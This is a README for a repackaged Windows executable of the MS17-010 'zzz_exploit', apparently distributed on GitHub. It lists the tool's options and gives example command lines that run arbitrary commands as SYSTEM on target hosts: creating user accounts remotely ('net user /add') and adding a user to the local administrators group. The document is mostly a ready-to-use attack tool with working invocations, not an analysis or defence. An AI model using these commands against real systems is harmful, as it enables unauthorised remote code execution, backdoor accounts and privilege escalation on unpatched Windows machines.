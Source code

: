 # ms17-010
This is a modified version of the [Worawit Wang: GitHub](https://github.com/worawit/MS17-010/) zzz_exploit for MS17-010.<br>
It implements a few options such as username/password specification and an arbitrary command to be executed.<br>
This is a bundle with an executable and dependencies and DOES NOT require python install.

# Usage

Unzip the bundle and from the command line execute ms17-010-zzz.exe<br><br>
ms17-010-zzz.exe -h<br>
usage: ms17-010-zzz.exe [-h] -t TARGET -c COMMAND -P PIPE [-u USER]
                        [-p PASSWORD]
<br><br>
MS17-010 - zzz_explot modified and converted to binary https://github.com/irgoncalves/ms17-010<br>
<br>
optional arguments:<br>
  -h, --help            show this help message and exit<br>
  -t TARGET, --target TARGET<br>
                        Target for exploitation<br>
  -c COMMAND, --command COMMAND<br>
                        Command to be executed as a service<br>
  -P PIPE, --pipe PIPE  Pipe to connect (e.g. netlogon)<br>
  -u USER, --user USER  Username to authenticate in case no anomymous<br>
                        connection to a pipe is allowed<br>
  -p PASSWORD, --password PASSWORD<br>
                        Password for the user<br>
<br>
Example: ms17-010.exe -t 172.16.0.2 -c 'net user /add srvnewcon4 teste123'<br>
<br>

Example to add a user remotely specifinc a named pipe and a valid non-administrator user:
ms17-010-zzz.exe -t 10.128.1.208 -c "net user /add teste2 teste2123" -P netlogon -u svruser -p abc123

Example to locally escalate privilege for an existent user (all commands are executed by SYSTEM):
ms17-010-zzz.exe -t 127.0.0.1 -c "net localgroup administrators teste2 /add" -P netlogon -u teste2 -p teste2123

# Limitations
Currently supports only x64 platform (Tested running from Windows 10, 2K8)
